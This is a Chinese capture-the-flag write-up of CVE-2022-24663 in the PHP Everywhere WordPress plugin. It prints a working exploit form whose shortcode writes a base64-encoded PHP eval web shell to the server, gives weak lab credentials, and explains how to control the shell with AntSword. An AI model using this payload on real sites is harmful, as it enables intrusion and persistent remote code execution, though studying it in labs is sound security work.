





# CVE-2022-24663（Wordpress中Everywhere插件远程代码执行漏洞）

<div style="text-align: right;">

date: "2023-01-13"

</div>

## 漏洞描述

- 远程代码执行漏洞，任何订阅者都可以利用该漏洞发送带有“短代码”参数设置为 PHP Everywhere 的请求，并在站点上执行任意 PHP 代码。P.S. 存在常见用户名低权限用户弱口令


## 漏洞原理

- 暂无


## 漏洞复现

访问wordpress默认后台(http://example/wp-admin/) ，存在弱口令：test/test



利用公开exp

```
 <form
      action="http://eci-2zei2lxiq05pi7hyrjxd.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php"
      method="post"
    >
      <input name="action" value="parse-media-shortcode" />
      <textarea name="shortcode">
[php_everywhere] <?php file_put_contents("/var/www/html/chanyue.php", base64_decode("PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2NtZCddKTsgPz4=")); ?>[/php_everywhere]</textarea
      >
      <input type="submit" value="Execute" />
    </form>
```

进入开发者模式->HTML格式修改，任意插入即可





会发现当前页面新增了一个输入框，点击Execute执行即可，执行之后当前页面源代码中会出现“true”和文件的路径。



直接访问http://example/chanyue.php ，发现没报错没内容，多半是上传成功了，蚁剑连接即可，密码是cmd

获取flag为：flag{9d289860-4130-4207-962f-4a360ef10bf5}



